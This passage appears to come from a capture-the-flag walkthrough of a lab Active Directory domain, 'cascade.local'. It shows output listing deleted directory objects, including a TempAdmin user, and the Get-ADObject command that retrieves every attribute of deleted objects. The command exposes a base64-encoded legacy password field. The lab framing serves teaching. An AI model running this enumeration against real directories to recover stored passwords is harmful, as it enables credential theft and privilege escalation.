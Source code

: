 ```bash
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local                                                                               
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local                                                                                          
Name              : User                                                                                                                                                                               
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

```bash
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
```

This confirms that the `TempAdmin` account is in the recycle bin.

We now run `Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *` which returns a long amount of results with the data from the user `TempAdmin`.

```bash
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```
